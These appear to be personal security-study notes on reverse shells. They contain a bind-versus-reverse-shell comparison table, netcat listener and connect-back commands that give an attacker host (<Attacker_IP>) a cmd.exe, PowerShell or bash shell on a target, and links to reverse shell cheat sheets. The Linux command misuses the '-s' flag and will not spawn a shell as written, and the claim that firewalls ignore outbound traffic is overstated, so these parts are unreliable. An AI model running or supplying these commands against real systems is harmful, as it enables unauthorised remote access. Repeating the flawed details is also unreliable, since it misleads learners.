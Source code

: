 

## **Reverse Shell**

A reverse shell or connect-back is a setup, where the attacker must first start the server on his machine, while the target machine will have to act as a client that connects to the server served by the attacker. After the successful connection, the attacker can gain access to the shell of the target computer.

To launch a Reverse shell, the attacker doesn’t need to know the IP address of the victim to access the target computer.


### Difference Between Bind Shell and Reverse Shell

| Bind Shell                                                                                                                                         | Reverse Shell                                                                                                                                                                       |
| -------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Bind Shells have the listener running on the target and the attacker connects to the listener in order to gain remote access to the target system. | In the reverse shell, the attacker has the listener running on his/her machine and the target connects to the attacker with a shell. So that attacker can access the target system. |
| In Bind shell, the attacker finds an open port on the server/ target machine and then tries to bind his shell to that port.                        | In the reverse shell, the attacker opens his own port. So that victim can connect to that port for successful connection.                                                           |
| The attacker must know the IP address of the victim before launching the Bind Shell.                                                               | The attacker doesn’t need to know the [IP address](https://www.geeksforgeeks.org/what-is-an-ip-address/) of the victim, because the attacker is going to connect to our open port.  |
| In Bind shell, the listener is ON on the target machine and the attacker connects to it.                                                           | The Reverse shell is opposite of the Bind Shell, in the reverse shell, the listener is ON on the Attacker machine and the target machine connects to it.                            |
| Bind Shell sometimes will fail, because modern firewalls don’t allow outsiders to connect to open ports.                                           | Reverse Shell can bypass the firewall issues because this target machine tries to connect to the attacker, so the firewall doesn’t bother checking packets.                         |


# **How to create a Reverse Shell:**

#### to get a shell on a Windows target:

1. Setup a listener on our Attacking machine: `nc -nvlp 7777`
2. we need to have nc.exe already there then(<mark style="background: #ABF7F7A6;">But it's possible with other methods</mark>): 

		nc.exe -nv <Attacker_IP> <Attacker_Listening_Port> -e <cmd.exe or powershell.exe>


#### to get a shell on a Linux target:

1. Setup a listener on our Attacking machine: `nc -nvlp 7777`
2. On the Target we need to have netcat already there then (<mark style="background: #ABF7F7A6;">But it's possible with other methods</mark>) 

		nc -nv <Attacker_IP> <Attacker_Listening_Port> -s /bin/bash



# **Reverse Shells without Netcat:**

<mark style="background: #8e44ad;">**:LiGithub:**</mark>https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

<mark style="background: #f1c40f;">🔙🐚</mark> https://www.revshells.com/ 
